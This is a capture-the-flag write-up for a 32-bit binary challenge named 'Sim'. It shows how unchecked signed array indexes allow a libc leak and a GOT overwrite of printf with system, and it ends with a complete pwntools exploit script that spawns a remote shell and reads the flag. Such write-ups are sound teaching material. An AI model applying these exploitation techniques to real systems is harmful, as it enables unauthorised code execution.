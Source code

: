 # Sim

**Description**:  
Welcome back `Agent 007`! As you can see, the simulator is running an arc right now. But the arc seems to be in a meltdown. Can you break its security with its own computational power and save it?

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
This seems to be the last challenge where Agent 007 will be back. 
You know the drill by now, `Checksec`:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8046000)
    RUNPATH:  b'.'
```

`Partial RELRO` opens up the possibility of GOT overwrite. 
For a change, this is also a 32 bit binary contrary to the 64 bit binaries that we encountered in the challenges thus far. So the addresses are going to be 4 bytes. 
`No PIE`, which means that the addess of the GOT table remains the same.

On running the binary, we can see that we have 3 options: ``add`, `show`, `break_armour``. All manipulates the reactor which is a global array declared as: `char *reactor[3][4]`. 


Now looking at the source code:

```C
void add(){

	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	puts("Enter the data :");
	read(0,reactor[idx],0x4);
		
}
```

`idx` is signed. Integer overflow is a possibility which allows negative indexiing. Also, we can allocate/write anything at `reactor+idx`. This is particularly dangerous because we can modify the contents of the reactor array at any position specified by idx. If negative values are permitted, we could potentially overwrite critical areas of memory, such as the Global Offset Table (GOT), since both reactor and the GOT are stored in the BSS segment. By calculating the correct offset, we could overwrite a GOT entry with the address of the `libc system` function. This would allow us to hijack the program's execution flow and ultimately gain a shell.


```C
void show(){
	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	if(reactor[idx])
		printf("%s\n",reactor[idx]);
	else
		puts("Not allocated!");
}
```

There is no check in `idx`. This can be exploited to print the data stored at `reactor+(-idx)` location. 

We can use the above to get more consistent `libc` leaks (addresses get randomized on each run due to ASLR). Then we can calculate the `system` address from the leaks. At last, we can overwrite GOT table entry of `printf` with the address (system) that we calculated. 


```C
	else if(choice == 3)
		{
		    printf(break_);
		}
```
*[In main]*
When the choice is 3, `printf(break_);` gets executed. So what if `break_` is `/bin/sh`? Viola! There pops the shell.

Note: Alternatively, you can also make use of the format string vulnerability in the `printf(break_)` to get the required leaks.

```python=
from pwn import *
#p = process("./sim")

p = remote('13.234.11.113',32651)

def add(idx,data):
    p.sendlineafter("MELTDOWN)\n","1")
    p.sendlineafter("index :\n",str(idx))
    p.sendlineafter("data :\n",data)

def show(idx):
    p.sendlineafter("MELTDOWN)\n","2")
    
    p.sendlineafter("Enter the index :\n",str(idx))
def leave():
    p.sendlineafter("MELTDOWN)\n","3")

p.sendline("/bin/sh\x00")
show("268435454")

print("leaks:")
leak = u32(p.recvline()[:4].strip().ljust(4,b'\x00'))
print(hex(leak))
base = leak - 0x1d55c0
system = base + 0x3ce10
print("System address:", hex(system))
add("268435449", p32(system))

#gdb.attach(p)

leave()
p.interactive()
```

On running the script:
```
[*] Switching to interactive mode
Choose your ACTION:
1. add
2. show
3. break armour
$ ls
Dockerfile  flag.txt  ld-2.27.so  libc-2.27.so    libc.so.6  sim    sim.py    ynetd
$ cat flag.txt
shaktiCTF{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}
$ exit
```
 
:thumbsup::tada:

Flag: `shaktictf{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}`              